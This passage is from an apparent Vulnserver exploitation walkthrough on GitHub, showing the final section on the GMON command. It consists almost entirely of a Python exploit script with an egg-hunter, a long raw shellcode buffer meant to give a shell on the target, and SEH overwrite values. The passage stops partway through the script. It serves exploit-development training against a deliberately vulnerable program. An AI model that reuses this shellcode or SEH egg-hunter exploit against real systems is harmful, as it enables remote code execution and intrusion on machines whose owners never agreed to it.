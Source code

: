 ## Exploitation

Now we have gone through every steps and crafted our final exploit to gain shell on our target machine

Adding the string ```PWNDPWND``` as ```egg``` in front our shellcode, so that our egg hunter will find it

The block diagram for our whole exploitation

<div align="center">
<img src="https://raw.githubusercontent.com/AidenPearce369/Vulnserver-Walkthrough/main/res/gmon-exploit-block.png">
</div>

Here is our exploit script,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat exploit.py       
import socket, sys

egg=b"PWNDPWND"

egghunter=b""
egghunter+=b"\x33\xd2\x66\x81\xca\xff\x0f\x33\xdb\x42\x53\x53\x52\x53\x53\x53"
egghunter+=b"\x6a\x29\x58\xb3\xc0\x64\xff\x13\x83\xc4\x0c\x5a\x83\xc4\x08\x3c"
egghunter+=b"\x05\x74\xdf\xb8\x50\x57\x4e\x44\x8b\xfa\xaf\x75\xda\xaf\x75\xd7"
egghunter+=b"\xff\xe7"

buf= b""
buf+=b"\xb8\xbb\xf1\x65\xd4\xdd\xc1\xd9\x74\x24\xf4\x5e\x31"
buf+=b"\xc9\xb1\x52\x31\x46\x12\x03\x46\x12\x83\x55\x0d\x87"
buf+=b"\x21\x55\x06\xca\xca\xa5\xd7\xab\x43\x40\xe6\xeb\x30"
buf+=b"\x01\x59\xdc\x33\x47\x56\x97\x16\x73\xed\xd5\xbe\x74"
buf+=b"\x46\x53\x99\xbb\x57\xc8\xd9\xda\xdb\x13\x0e\x3c\xe5"
buf+=b"\xdb\x43\x3d\x22\x01\xa9\x6f\xfb\x4d\x1c\x9f\x88\x18"
buf+=b"\x9d\x14\xc2\x8d\xa5\xc9\x93\xac\x84\x5c\xaf\xf6\x06"
buf+=b"\x5f\x7c\x83\x0e\x47\x61\xae\xd9\xfc\x51\x44\xd8\xd4"
buf+=b"\xab\xa5\x77\x19\x04\x54\x89\x5e\xa3\x87\xfc\x96\xd7"
buf+=b"\x3a\x07\x6d\xa5\xe0\x82\x75\x0d\x62\x34\x51\xaf\xa7"
buf+=b"\xa3\x12\xa3\x0c\xa7\x7c\xa0\x93\x64\xf7\xdc\x18\x8b"
buf+=b"\xd7\x54\x5a\xa8\xf3\x3d\x38\xd1\xa2\x9b\xef\xee\xb4"
buf+=b"\x43\x4f\x4b\xbf\x6e\x84\xe6\xe2\xe6\x69\xcb\x1c\xf7"
buf+=b"\xe5\x5c\x6f\xc5\xaa\xf6\xe7\x65\x22\xd1\xf0\x8a\x19"
buf+=b"\xa5\x6e\x75\xa2\xd6\xa7\xb2\xf6\x86\xdf\x13\x77\x4d"
buf+=b"\x1f\x9b\xa2\xc2\x4f\x33\x1d\xa3\x3f\xf3\xcd\x4b\x55"
buf+=b"\xfc\x32\x6b\x56\xd6\x5a\x06\xad\xb1\xa4\x7f\xd9\xc1"
buf+=b"\x4d\x82\x21\xe4\x19\x0b\xc7\x82\x31\x5a\x50\x3b\xab"
buf+=b"\xc7\x2a\xda\x34\xd2\x57\xdc\xbf\xd1\xa8\x93\x37\x9f"
buf+=b"\xba\x44\xb8\xea\xe0\xc3\xc7\xc0\x8c\x88\x5a\x8f\x4c"
buf+=b"\xc6\x46\x18\x1b\x8f\xb9\x51\xc9\x3d\xe3\xcb\xef\xbf"
buf+=b"\x75\x33\xab\x1b\x46\xba\x32\xe9\xf2\x98\x24\x37\xfa"
buf+=b"\xa4\x10\xe7\xad\x72\xce\x41\x04\x35\xb8\x1b\xfb\x9f"
buf+=b"\x2c\xdd\x37\x20\x2a\xe2\x1d\xd6\xd2\x53\xc8\xaf\xed"
buf+=b"\x5c\x9c\x27\x96\x80\x3c\xc7\x4d\x01\x4c\x82\xcf\x20"
buf+=b"\xc5\x4b\x9a\x70\x88\x6b\x71\xb6\xb5\xef\x73\x47\x42"
buf+=b"\xef\xf6\x42\x0e\xb7\xeb\x3e\x1f\x52\x0b\xec\x20\x77"

nseh=b""
nseh=b"\xeb\xb6"
nseh+=b"\x90\x90"

seh=b"\xb4\x10\x50\x62"

# to overwrite buffer and EBP
```